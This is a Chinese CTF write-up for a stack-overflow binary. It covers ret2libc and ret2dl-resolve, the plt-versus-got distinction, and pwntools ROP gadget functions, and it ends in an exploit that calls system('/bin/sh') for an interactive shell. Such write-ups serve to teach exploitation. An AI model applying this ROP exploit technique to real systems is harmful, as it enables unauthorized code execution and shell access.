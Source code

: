 ## 溢出点
很明显在40068E那个函数里典型rettolibc
```
.text:0000000000400692                 sub     rsp, 40h
.text:0000000000400696                 lea     rax, [rbp+var_40]
.text:000000000040069A                 mov     edx, 10
.text:000000000040069F                 mov     esi, 0C8h
.text:00000000004006A4                 mov     rdi, rax
.text:00000000004006A7                 call    read_bytes
```
这里只有0x40的栈空间，而却是读0xc8的字节
加上ebp, 填充0x40+0x08就能到ret的地址了

## ?????
没有给so库
-脸懵逼。。。可以dl-resolve.
参考了l-ctf官方wp

## Tips
```
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

注意上面这两个函数。<br>
1.最后是ret左右func_addr应该是plt段的函数地址，
例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

2.是call func_addr, 所以必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

所以 总结来说就是<br>
ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的

## 主要函数
```
def exp(sys_addr):
    # read(0, rwdata_addr, 0x08) 写入8个字节字符串
    payload = gadget_call(read_got, arg1=0, arg2=rwdata_addr, arg3=0x10)
    payload += 'D'*(200-len(payload))
    p.send(payload)
    log.info('Sending system address and binsh')
    p.send('/bin/sh\x00'+p64(sys_addr))
    p.recvuntil('bye~\n')
    # 检查一下
    leak(rwdata_addr,0x08)
    leak(rwdata_addr+8,0x08)
    # call sys "/bin/sh"
    payload = gadget_call(rwdata_addr+8, arg1=rwdata_addr)
    payload += 'D'*(200-len(payload))
    p.send(payload)
    p.recvuntil('bye~\n')
    p.interactive()
```
这里自己用的pwntools<br>
主要是修改got表。期间出了很多问题。细心是关键。
